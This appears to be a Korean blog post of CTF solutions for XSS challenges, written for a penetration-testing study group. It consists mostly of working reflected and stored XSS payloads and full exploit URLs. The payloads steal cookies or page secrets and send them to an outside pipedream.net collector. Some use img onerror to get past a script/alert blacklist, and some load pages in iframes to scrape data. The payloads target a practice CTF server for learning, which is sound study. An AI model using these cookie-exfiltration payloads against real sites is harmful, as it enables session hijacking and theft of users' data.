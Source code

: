 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 

tags: [TIL, WEB]
---
```


# XSS 1
## index.php

## login.html

## signup.html

### signup.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-1.png?raw=true)

## qna_board.php

## qna.php
### qna_create.php

## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

## notice_write.php
### notice_write_process.php

## mypage.php
### mypage_update.php

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
alert('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B

# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="let cookie = document.cookie;let img = new Image();img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;">
```

# xss5

# xss6
# login.php
```js
');
let c = document.cookie;
let i = new Image();
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;
let tmp = ('
```

link: <http://ctf.segfaulthub.com:4343//xss_7/login.php?id=');let+c=document.cookie;let+i=new+Image();i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="%2Bc;let+tmp=('&pw=>

# Basic Script Prac
## mypage -> reflected xss
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">

# Steal Info
## notice_list -> stored xss
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        var e = f.document.getElementsByClassName('card-text')[1].textContent;
        console.log(f);
        let i = new Image();
        i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + e;
    })
</script>

# Steal Info 2
## notice_list -> stored xss
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        let e = f.document.querySelectorAll('input')[1].placeholder;
        console.log(f);
        let i = new Image();
        i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + e;
    })
</script>